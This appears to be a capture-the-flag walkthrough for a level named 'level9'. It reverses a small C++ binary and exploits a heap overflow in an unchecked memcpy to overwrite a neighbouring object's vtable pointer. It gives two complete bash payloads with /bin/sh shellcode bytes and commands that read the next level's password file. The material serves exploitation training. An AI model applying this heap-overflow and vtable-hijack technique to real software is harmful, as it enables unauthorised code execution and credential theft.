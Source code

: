 # Walkthrough

## Reversing

Oh... This is in C++... Cool!

```cpp

void main(int argc,char **argv)
{
  N *a;
  N *b;
  
  if (argc < 2) {
    _exit(1);
  }
  a = (N *)operator.new(108);
  N::N(a,5);
  b = (N *)operator.new(108);
  N::N(b,6);
  N::setAnnotation(a,argv[1]);
  (***(code ***)b)(b,a);
  return;
}

void __thiscall N::N(N *this,int param_1)
{
  *(undefined ***)this = &PTR_operator+_08048848;
  *(int *)(this + 0x68) = param_1;
  return;
}

int __thiscall N::operator+(N *this,N *param_1)
{
  return *(int *)(param_1 + 104) + *(int *)(this + 104);
}

int __thiscall N::operator-(N *this,N *param_1)
{
  return *(int *)(this + 104) - *(int *)(param_1 + 104);
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

Is a very simple binary, I was hopping for something more complex when I saw it
was on C++... But okey, I understand this project is entry-level.

## Exploit

The `setAnnotation` method is vulnerable to buffer overflow, it copies with out
making any check, and, because the `this_00` class is allocated after `this`,
it will be just after in the heap, so we can overwrite the `this_00` memory
region.

But, what's happening in this line exactly? `(***(code ***)b)(b,a);` It's
dereferencing twice?.

In c++, usually, the first bytes of a class is the `vtable` pointer, that's
why `setAnnotation` copy to `this + 4`, it skips this pointers, and I suppose
there is later an attribute, probably a `std::string`.

So, in that line, is calling the function at `vtable[0]`, so now look at the
vtable:
```raw
                     **************************************************************
                     * vtable for N                                               *
                     **************************************************************
                     _ZTV1N                                          XREF[1]:     Entry Point(*)  
                     N::vtable
08048840 00              ??         00h
08048841 00              ??         00h
08048842 00              ??         00h
08048843 00              ??         00h
08048844 54 88 04 08     addr       N::typeinfo                                      = 08049b88
                     PTR_operator+_08048848                          XREF[1]:     N:080486fc(*)  
08048848 3a 87 04 08     addr       N::operator+
0804884c 4e 87 04 08     addr       N::operator-
```

So indeed, that first function is the `operator+`, cool right? This will be
useful when recoding the source, but for now, it doesn't matter, what does
matter is that we now that whatever we place in `b` will be dereferenced, and
the dereferenced address will be again dereferenced, so our payload is gonna
be fun.

For now, let's get the addresses of the allocated classes using gdb, search
in the source for the `operatorn.new` address or the compiled name, because
it will be something strange, in my case it was: `_Znwj@@GLIBCXX_3.4`.

Place breakpoints after, and check `$eax`, the usual stuff:
```raw
0x0804a008
0x0804a078
```

The offset is:
```raw
0x0804a008h - 0x0804a078h = 112d
```

So, the offset will be:
- `108` bytes of the allocation size (for the class).
- `4` bytes of offset between allocations.
- `-4` bytes because `setAnnotation` starts writing at `this + 4`.

So our payload will be:

- `108` offset bytes.
- address pointing to shellcode address (`0804a078 + 4 = 0804a07c`) (It will be dereferenced).
- shellcode address (`0804a078 + 4 + 4 = 0804a080`) (Because it will dereference twice).
- Our [shellcode from shell-storm](https://shell-storm.org/shellcode/files/shellcode-752.html).

```bash
offset=$(printf "%108s" " " | tr ' ' 'A')
addr1=$(printf '\x7c\xa0\x04\x08')
addr2=$(printf '\x80\xa0\x04\x08')
sc=$(printf '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')

payload="${offset}${addr1}${addr2}${sc}"
./level9 "${payload}"

cd /home/user/bonus0
cat .pass
```

And that's it! Flag obtained! Of course, check the `./resources/exploit.sh`. ;D

Another option would be to add the shellcode to the offset instead, this has the
advantage of a smaller final payload:
- Address of shellcode (`0804a008 + 8 = 0804a010`, because our buffer starts in `this + 4`).
- Shellcode (23 bytes).
- Offset (4 + 23 = 27, 108 - 27 = 81)
- Address of address of shellcode (`0804a008 + 4 = 0804a00c`)

```bash
addr1=$(printf '\x10\xa0\x04\x08')
sc=$(printf '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')
offset=$(printf "%83s" " " | tr ' ' 'A')
addr2=$(printf '\x0c\xa0\x04\x08')

payload="${addr1}${sc}${offset}${addr2}"
./level9 "${payload}"
```

So... bonus time? `\(^O^)/ <( Let's go! )`
